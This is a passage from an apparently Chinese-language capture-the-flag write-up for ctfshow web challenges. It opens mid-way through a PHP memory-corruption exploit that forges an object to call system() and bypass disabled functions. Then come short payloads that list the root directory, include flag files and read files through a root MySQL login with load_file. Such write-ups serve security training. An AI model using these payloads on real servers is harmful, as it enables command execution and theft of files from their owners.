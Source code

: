 ```php
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }


    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); 
    write($abc, 0xd0 + 0x68, $zif_system); 

    ($helper->b)($cmd);
    exit();
}

ctfshow("cat /flag0.txt");ob_end_flush();
#需要通过url编码哦

```

---

#### web73

**payload**

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}exit(0);
c=include("/flagc.txt");exit(0);
```

---

#### web74

和上一题的payload一样

---

#### web75

**payload**

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}exit(0);

c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root',
'root');foreach($dbh->query('select load_file("/flag36.txt")') as $row)
{echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e-
>getMessage();exit(0);}exit(0);
```

---